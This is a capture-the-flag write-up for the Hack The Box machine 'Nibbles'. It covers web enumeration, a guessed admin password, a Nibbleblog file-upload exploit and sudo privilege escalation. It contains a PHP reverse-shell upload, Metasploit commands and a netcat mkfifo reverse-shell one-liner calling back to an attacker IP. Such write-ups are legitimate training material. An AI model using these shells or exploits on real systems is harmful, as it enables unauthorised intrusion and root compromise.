









hackthebox Nibbles
Released: 13th January 2018 / Pwned: 18th September 2019 - [+] Solved whilst Retired

Nibbles invovles brute-forcing for directories on a web server to find an admin page. You find a valid username within the site's config settings, but have to guess the password. Once in, you can upload a php shell to gain access to the system. To priv-esc to root, you exploit sudo privileges on a file which you have write access to, and modify the file so that it sends a roto shell back to you.
1) Nmap
Initial scan:
nmap -T4 -sV -sC -O -oN nmap/tcp-top1000.txt 10.10.10.75
-T4 aggressive scan
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/nibbles# nmap -T4 -sV -sC -O -oN nmap/tcp-top1000.txt 10.10.10.75
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
[...]
Analysis of results:
• 22/ssh - Nothing can be done with ssh for the time being.
• 80/http - A website - always a good place to start
2) 80/http
http://10.10.10.75/

Right click > view-source and you'll find a reference to a directory - /nibbleblog/

2a) Nibbleblog
http://10.10.10.75/nibbleblog/
Nibbleblog looks like a blog framework.

2b) Gobuster - Find username
Clicking around, you'll find references to .php files, so run gobuster against /nibbleblog brute-forcing for .php extensions.
root@gotham:~/ctf/nibbles/80# gobuster -e -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -x .php
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.75/nibbleblog/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions : php
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/09/18 10:49:37 Starting gobuster
=====================================================
http://10.10.10.75/nibbleblog/.htpasswd (Status: 403)
http://10.10.10.75/nibbleblog/.htpasswd.php (Status: 403)
http://10.10.10.75/nibbleblog/.htaccess (Status: 403)
http://10.10.10.75/nibbleblog/.htaccess.php (Status: 403)
http://10.10.10.75/nibbleblog/README (Status: 200)
http://10.10.10.75/nibbleblog/admin (Status: 301)
http://10.10.10.75/nibbleblog/admin.php (Status: 200)
http://10.10.10.75/nibbleblog/content (Status: 301)
http://10.10.10.75/nibbleblog/feed.php (Status: 200)
http://10.10.10.75/nibbleblog/index.php (Status: 200)
http://10.10.10.75/nibbleblog/install.php (Status: 200)
http://10.10.10.75/nibbleblog/languages (Status: 301)
http://10.10.10.75/nibbleblog/plugins (Status: 301)
http://10.10.10.75/nibbleblog/sitemap.php (Status: 200)
http://10.10.10.75/nibbleblog/themes (Status: 301)
http://10.10.10.75/nibbleblog/update.php (Status: 200)
=====================================================
2019/09/18 10:51:51 Finished
=====================================================
/README identifies the nibbleblog version - 4.03.
/admin.php is an admin login page.
/admin, /content, /languages, /plugins, /themes are all directory listings, which you can browse.
Inside /content/private/users.xml, you'll find a username - admin.

2c) Admin Panel
I couldn't find any reference to a password throughout any of the directory listings, which felt unfair.
However, the title of the box is often a clue in itself.
Log in at the admin page with credentials admin / nibbles.

We've logged into an admin panel.

Gain Access
3) Upload php shell
If you searchsploit nibbleblog, you'll discover that Nibbleblog version 4.03's My image plugin is vulnerable to a file upload vulnerability.
You can use the metasploit module or do it manually, both are pretty trivial.
3a) Metasploit module
root@gotham:~/ctf/nibbles# msfconsole -q
[...]
msf5 > use exploit/multi/http/nibbleblog_file_upload
msf5 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
msf5 exploit(multi/http/nibbleblog_file_upload) > exploit
[*] Started reverse TCP handler on 10.10.14.6:4444
[*] Sending stage (38247 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.10.75:56256) at 2019-09-17 18:18:19 +0100
[+] Deleted image.php
meterpreter > sysinfo
Computer : Nibbles
OS : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
3b) Manually upload shell
First, prep the shell you're going to upload.
I'm using pentest-monkey's php reverse shell.
Edit the $ip and $port variables to that of your attacking machine.
root@gotham:~/ctf/nibbles# cp /usr/share/webshells/php/php-reverse-shell.php .
root@gotham:~/ctf/nibbles# mv php-reverse-shell.php monkey.php
root@gotham:~/ctf/nibbles# nano monkey.php
[...]
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15'; // CHANGE THIS
$port = 9001; // CHANGE THIS
And start a listener on your attacking machine to receive the shell.
root@gotham:~/ctf/nibbles# nc -lvnp 9001
listening on [any] 9001 ...
Next, upload the shell.
On the admin panel, go to Plugins > My image > Configure

You're at a file upload form.

Browse to the reverse shell you prepped and upload it.
Ignore the errors, they don't matter.
To activate the shell, visit:
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
The page should load and you should have a shell on your listener!
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.75] 43102
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
05:57:55 up 40 min, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$
Go grab user.txt.
$ cd /home/nibbler
$ cat user.txt
b02ff32bb332deba49eeaed21152c8d8
Priv-Esc
4) sudo -l
Run sudo -l, and you'll discover that you can run a monitor.sh script present in /home/nibbler/personal/stuff/monitor.sh.
$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
Unzip the personal.zip in /home/nibbler to extract monitor.sh.
$ unzip personal.zip
Archive: personal.zip
creating: personal/
creating: personal/stuff/
inflating: personal/stuff/monitor.sh
monitor.sh is just a generic script that gathers info about the system.
$ cd personal/stuff/
$ cat monitor.sh
[...]
# Check Architecture
architecture=$(uname -m)
echo -e '\E[32m'"Architecture :" $tecreset $architecture
# Check Kernel Release
kernelrelease=$(uname -r)
echo -e '\E[32m'"Kernel Release :" $tecreset $kernelrelease
# Check hostname
echo -e '\E[32m'"Hostname :" $tecreset $HOSTNAME
# Check Internal IP
internalip=$(hostname -I)
echo -e '\E[32m'"Internal IP :" $tecreset $internalip
# Check External IP
externalip=$(curl -s ipecho.net/plain;echo)
echo -e '\E[32m'"External IP : $tecreset "$externalip
[...]
4a) Modify monitor.sh
With the script in its current state, it isn't useful to us despite being able to run it as root.
However, monitor.sh is world-writable.
Considering that we can write to the script and run it as root using sudo, we effectively have root code execution.
Overwrite the exisiting monitor.sh and write into it whatever code you want to run as root.
I chose to send a root reverse shell back to my attacking system.
$ echo "mkfifo /tmp/f ; nc 10.10.14.15 9002 < /tmp/f | /bin/sh > /tmp/f 2> /tmp/f ; rm /tmp/f" > monitor.sh
$ cat monitor.sh
mkfifo /tmp/f ; nc 10.10.14.15 9002 < /tmp/f | /bin/sh > /tmp/f 2> /tmp/f ; rm /tmp/f
4b) Elevate to an interactive shell
In order to run sudo, you need an interactive shell, otherwise you'll receive this error message:
sudo: no tty present and no askpass program specified
Python 2 isn't installed, but Python 3 is.
Elevate to an interactive shell using python3 -c 'import pty; pty.spawn("/bin/bash")'
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler/personal/stuff$
4c) Run monitor.sh
Start a listener on your attacking machine to receive the shell
root@gotham:/ctf/nibbler# nc -lvnp 9002
listening on [any] 9002 ...
Run monitor.sh as root on Nibbles with sudo -u root.
You have to specify the full path of monitor.sh as outlined in sudo -l for it to the script to run as root.
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
Wait 10 or so seconds (becasue sudo is trying to connect to a host called Nibbler?), and you should receive a root shell on your listener :)
[..]
listening on [any] 9002 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.75] 46490
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
b6d745c...